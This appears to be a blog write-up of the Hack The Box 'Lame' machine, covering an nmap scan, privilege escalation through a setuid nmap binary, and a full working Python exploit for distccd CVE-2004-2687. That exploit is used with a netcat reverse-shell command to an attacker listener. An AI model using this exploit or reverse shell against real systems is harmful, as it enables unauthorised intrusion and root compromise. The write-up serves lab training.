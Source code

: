 ```yaml
---
title: "Lame HTB Walkthrough "
author:
  name: Miguel Guerrero
  link: https://mikemighthack.me
date: 2022-03-15 11:00:00 +0105
categories: [HTB, Walkthrough]
tags: [CVE-2004-2687, lse.sh, setuid]
math: true
mermaid: true
image:
  src: /assets/images/HTB/Lame/20220315130531.png
  width: 800
  height: 500
---
```


Lame was the first box released on HTB. It is a very easy machine that can be solved with metaesploit, but in this post we are going to solve this machine without it. 

## Recon
Firstly, we do our common nmap scan:
```sh
kali@kali:~$ nmap -sC -sV -p21,22,139,445,3632 -Pn -n 10.10.10.3  
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-11-28 20:30 CET  
Nmap scan report for 10.10.10.3  
Host is up (0.033s latency).  
  
PORT STATE SERVICE VERSION  
21/tcp open ftp vsftpd 2.3.4  
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| ftp-syst:  
| STAT:  
| FTP server status:  
| Connected to 10.10.14.12  
| Logged in as ftp  
| TYPE: ASCII  
| No session bandwidth limit  
| Session timeout in seconds is 300  
| Control connection is plain text  
| Data connections will be plain text  
| vsFTPd 2.3.4 - secure, fast, stable  
|_End of status  
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)  
| ssh-hostkey:  
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)  
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)  
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Host script results:  
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)  
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)  
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)  
|_smb2-time: Protocol negotiation failed (SMB2)
```

We can see that ftp, ssh, smb and DistCC Daemon ports open.

If we focus on port 3632/DistCC Daemon, we can see that it has a vulnerability that we can exploit to gain remote access.

## Exploit
The vulnerability is registered as [CVE-2004-2687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687). In order to exploit this vulnerability, without metaesploit, we can use this script in python [distccd_rce_CVE-2004-2687.py](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) 

code:

```python
# -*- coding: utf-8 -*-

'''
	distccd v1 RCE (CVE-2004-2687)
	
	This exploit is ported from a public Metasploit exploit code :
		https://www.exploit-db.com/exploits/9915

	The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

	I'm aware a Nmap script exists but for some reason I could not get it to work.

	Lame Box (HTB):
		local>nc -lvp 1403

		local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"	

		Enjoy your shell

	Jean-Pierre LESUEUR
	@DarkCoderSc
'''

import socket
import string
import random
import argparse

'''
	Generate a random alpha num string (Evade some signature base detection?)
'''
def rand_text_alphanumeric(len):
	str = ""
	for i in range(len):
		str += random.choice(string.ascii_letters + string.digits)

	return str

'''
	Read STDERR / STDOUT returned by remote service.
'''
def read_std(s):
	s.recv(4) # Ignore

	len = int(s.recv(8), 16) # Get output length

	if len != 0:
		return s.recv(len)

'''
	Trigger Exploit
'''
def exploit(command, host, port):
	args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

	payload = "DIST00000001" + "ARGC%.8x" % len(args)

	for arg in args:
		payload += "ARGV%.8x%s" % (len(arg), arg)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	socket.setdefaulttimeout(5)
	s.settimeout(5)

	if s.connect_ex((host, port)) == 0:
		print("[\033[32mOK\033[39m] Connected to remote service")
		try:
			s.send(payload)

			dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

			s.send(dtag)			

			s.recv(24)

			print("\n--- BEGIN BUFFER ---\n")
			buff = read_std(s) # STDERR

			if buff:
				print(buff)

			buff = read_std(s) # STDOUT
			if buff:
				print(buff)

			print("\n--- END BUFFER ---\n")

			print("[\033[32mOK\033[39m] Done.")
		except socket.timeout:
			print("[\033[31mKO\033[39m] Socket Timeout")
		except socket.error:
			print("[\033[31mKO\033[39m] Socket Error")
		except Exception:
			print("[\033[31mKO\033[39m] Exception Raised")
		finally:
			s.close()		
	else:
		print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))


parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

try:
	argv = parser.parse_args()

	exploit(argv.command, argv.host, argv.port)
except IOError:
	parse.error

```

To use the exploit:

``` shell
kali$> nc -lvp 1403

#in other shell, execute the python file   
kali$> disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"
```

In this way, we will gain access to the victim machine with the user daemon.


## Privilege escalation
After gain access to the victim machine, we can use the [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) tool to enumerate flaws   
that allow us to escalate privileges.

```sh
lame$> ./lse.sh
```

in the output of the tool, it is possible to see that nmap has the **setuid** active:
![[20220315133103.png]]

We can exploit this very easily to escalate privileges. Execute the following commands:
```sh
lame$> nmap --interactive  
!sh  
sh-3.2# cat /root/root.txt   
````

And finally we are root, and we can use the cat command to achieve the root flag.  

I hope you liked it,
See ya!